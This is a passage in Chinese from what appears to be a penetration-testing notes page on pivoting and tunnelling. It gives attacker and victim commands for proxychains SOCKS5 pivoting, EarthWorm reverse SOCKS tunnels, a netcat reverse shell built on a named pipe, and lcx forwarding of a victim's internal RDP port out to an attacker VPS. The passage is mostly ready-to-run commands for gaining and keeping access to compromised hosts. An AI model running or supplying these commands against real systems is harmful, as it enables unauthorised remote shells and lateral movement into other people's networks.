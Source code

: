 **攻击机：**

>   proxychain 设置 socks5 为跳板 ip port
>
>   proxychain nmap 即可以用跳板代理扫描其他主机

****反向：****

**攻击机：**

>   chmod 777 ./ew_for_linux64
>
>   ./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机 2333 端口，转发到本机的 1080 端口，访问本机的 1080 端口，相当访问被攻击机的 2333

设置

>   proxychain socks5 本主机 ip port：1080
>
>   proxychain 代理即可

**被攻击机：**

>   chmod 777 ew_for_linux
>
>   ./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333

### nc

nc 简单使用

>   https://tom0li.github.io/2017/05/06/nc/

linux root 权限

>   mknod /tmp/backpipe p  
>
>   /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe

权限不够用

>   ```
>   mkfifo /tmp/backpipe
>   ```

以上用 nc 监听即可

### lcx

被攻击机

>   lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389

vps    

>   lcx.exe –listen 8888 5555

在本机 mstsc 登陆 139.1.2.3:5555 或在 vps 连接 127.0.0.1:5555

### netsh win自带(只支持 tcp )360 拦
